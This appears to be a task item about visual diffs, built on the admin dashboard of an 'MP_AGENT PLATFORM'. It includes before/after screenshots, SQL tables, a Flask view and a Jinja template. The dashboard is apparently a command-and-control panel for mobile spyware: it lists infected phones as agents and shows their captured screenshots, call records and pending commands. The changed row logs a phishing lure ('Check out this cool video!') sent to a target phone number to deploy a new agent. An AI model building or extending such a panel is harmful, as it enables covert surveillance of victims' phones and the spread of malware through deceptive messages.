

Before: /admin (signed in) with the older database file (2 pictures, top to bottom).


After: the same page with the newer database file (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE deployments (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            target_phone TEXT,
            agent_id TEXT,
            message_sent TEXT,
            status TEXT,
            timestamp DATETIME
        );

CREATE TABLE system_logs (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            level TEXT,
            message TEXT,
            timestamp DATETIME
        );

### app.py (the view)
@app.route('/admin')
def admin_dashboard():
    if not session.get('authenticated'):
        return redirect('/login')
    conn = get_db_connection()
    stats = {
        'active_agents': conn.execute("SELECT COUNT(*) FROM agents WHERE status='active'").fetchone()[0],
        'total_screenshots': conn.execute("SELECT COUNT(*) FROM screenshots").fetchone()[0],
        'total_calls': conn.execute("SELECT COUNT(*) FROM call_records").fetchone()[0],
        'total_deployments': conn.execute("SELECT COUNT(*) FROM deployments").fetchone()[0],
        'pending_commands': conn.execute("SELECT COUNT(*) FROM commands WHERE status='pending'").fetchone()[0]
    }
    all_agents = [row_to_dict(row) for row in conn.execute("SELECT * FROM agents ORDER BY last_seen DESC").fetchall()]
    active_agents = [row_to_dict(row) for row in conn.execute("SELECT * FROM agents WHERE status='active' ORDER BY last_seen DESC LIMIT 20").fetchall()]
    screenshots = [row_to_dict(row) for row in conn.execute('''
        SELECT s.*, a.phone_model FROM screenshots s
        JOIN agents a ON s.agent_id = a.agent_id
        ORDER BY s.timestamp DESC LIMIT 16
    ''').fetchall()]
    calls = [row_to_dict(row) for row in conn.execute("SELECT * FROM call_records ORDER BY timestamp DESC LIMIT 15").fetchall()]
    deployments = [row_to_dict(row) for row in conn.execute("SELECT * FROM deployments ORDER BY timestamp DESC LIMIT 15").fetchall()]
    commands = [row_to_dict(row) for row in conn.execute("SELECT * FROM commands ORDER BY timestamp DESC LIMIT 10").fetchall()]
    logs = [row_to_dict(row) for row in conn.execute("SELECT * FROM system_logs ORDER BY timestamp DESC LIMIT 20").fetchall()]
    conn.close()
    platform_url = request.host_url.rstrip('/')
    return render_template('admin_dashboard.html',
                         stats=stats,
                         agents=active_agents,
                         all_agents=all_agents,
                         screenshots=screenshots,
                         calls=calls,
                         deployments=deployments,
                         commands=commands,
                         logs=logs,
                         platform_url=platform_url)

### app.py (called while the page is built)
def get_db_connection():
    conn = sqlite3.connect('mp_agent.db')
    conn.row_factory = sqlite3.Row
    return conn

def row_to_dict(row):
    if row is None:
        return None
    return {key: row[key] for key in row.keys()}

### templates/admin_dashboard.html (shortened to what the changed rows need)
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    <div class="header">
        <h1>🎯 MP_AGENT PLATFORM</h1>
    </div>
    <div class="stats">
        <div class="stat-card">
            <div class="stat-number" style="color: var(--secondary);">{{ stats.total_deployments }}</div>
            <div>Deployments</div>
        </div>
    </div>
    <div class="section" id="agents">
        <h2>📱 Active Agents ({{ agents|length }})</h2>
    </div>
    <div class="section" id="screenshots">
        <h2>🖼️ Recent Screenshots</h2>
    </div>
    <div class="section" id="deploy">
        <h2>🚀 Deploy New Agent</h2>
        {% if deployments %}
        <div class="data-table-container">
            <table class="data-table">
                <thead>
                    <tr>
                        <th>Target Phone</th>
                        <th>Agent ID</th>
                        <th>Status</th>
                        <th>Time</th>
                        <th>Message</th>
                    </tr>
                </thead>
                <tbody>
                    {% for deployment in deployments %}
                    <tr>
                        <td>{{ deployment['target_phone'] }}</td>
                        <td>{{ deployment['agent_id'] }}</td>
                        <td>
                            <span class="status-{{ deployment['status'] }}">
                                {{ deployment['status']|upper }}
                            </span>
                        </td>
                        <td>{{ deployment['timestamp'] }}</td>
                        <td><em>{{ deployment['message_sent'][:50] }}...</em></td>
                    </tr>
                    {% endfor %}
                </tbody>
            </table>
        </div>
        {% else %}
        <p style="text-align: center; padding: 20px; color: #888;">No deployments yet</p>
        {% endif %}
    </div>
    <div class="section" id="commands">
        <h2>⚡ Send Command</h2>
    </div>
    <div class="section" id="logs">
        <h2>📋 System Logs</h2>
        {% if logs %}
        <div class="command-console">
            {% for log in logs %}
            <div>
                <span style="color:
                    {% if log['level'] == 'ERROR' %}#ff4444
                    {% elif log['level'] == 'WARNING' %}#ffaa00
                    {% else %}#00ff00
                    {% endif %}">
                    [{{ log['timestamp'] }}] {{ log['level'] }}:
                </span>
                {{ log['message'] }}
            </div>
            {% endfor %}
        </div>
        {% else %}
        <p style="text-align: center; padding: 20px; color: #888;">No system logs</p>
        {% endif %}
    </div>
</body>
</html>

Changed rows visible on the page:
added deployments: target_phone "+25768596164", agent_id "zaya", status "INITIATED", timestamp "2025-10-28 20:33:20.359932", message_sent "Check out this cool video! 🎬 Primary Link: http:/"
added system_logs: timestamp "2025-10-28 20:33:20.372227", level "INFO", message "Deployment created for +25768596164 -> zaya"
Other visible differences:
{{ stats.total_deployments }}: "2" → "3"
